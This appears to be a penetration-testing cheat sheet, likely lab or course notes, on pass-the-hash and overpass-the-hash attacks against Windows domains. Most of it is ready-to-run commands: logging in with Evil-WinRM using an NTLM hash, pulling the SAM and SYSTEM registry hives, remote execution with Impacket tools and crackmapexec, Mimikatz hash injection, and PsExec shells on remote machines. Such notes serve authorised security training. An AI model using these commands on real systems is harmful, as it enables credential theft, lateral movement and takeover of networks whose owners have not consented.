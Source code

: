 Pre-requisites for PtH to work:
- An SMB connection through the firewall (commonly port 445)
- The Windows File and Printer Sharing feature should be enabled

# Evil-WinRM
https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/
You can login to a user using `Evil-WinRM` if it's in the *Remote Management Users* group.
```sh
evil-winrm -i 10.10.141.46 -u administrator -H 0e0363213e37b94221497260b0bcb4fc

# -i : IP
# -u : Username
# -p : Password
# -H : NTLM Hash

# Download file into kali
download .\SAM /opt/Juggernaut/JUGG-Backup/SAM
download .\SYSTEM /opt/Juggernaut/JUGG-Backup/SYSTEM

# Upload file
upload /root/notes.txt
```


## If PowerShell is not working
```sh
# If you only have the NT hash of the user, take LM hash as 32 0's
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET' whoami
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

crackmapexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami

# Mimikatz on Windows
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```

https://www.thehacker.recipes/a-d/movement/ntlm/pth
---
# Pass-The-Hash with RDP
[Passing the Hash with Remote Desktop | Kali Linux Blog](https://www.kali.org/blog/passing-hash-remote-desktop/)

---
# Over-Pass the Hash
With overpass the hash, we can "over" abuse an NTLM user hash to gain a full Kerberos **Ticket Granting Ticket** (TGT). Then we can use the TGT to obtain a **Ticket Granting Service** (TGS).
> Used when you want to authenticate over Kerberos instead of NTLM!

```mimikatz
# Get NTLM hash of the domain user
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

*At this point, running the whoami command on the newly created PowerShell session would show jeff's identity instead of jen. While this could be confusing, this is the intended behavior of the whoami utility which only checks the current process's token and does not inspect any imported Kerberos tickets.*

```powershell
# Get TGT by authenticating to the intended network share
net use \\files04
The command completed successfully.

# Check TGT
klist

# Use PsExec to logon to the machine
.\PsExec.exe \\files04 cmd
```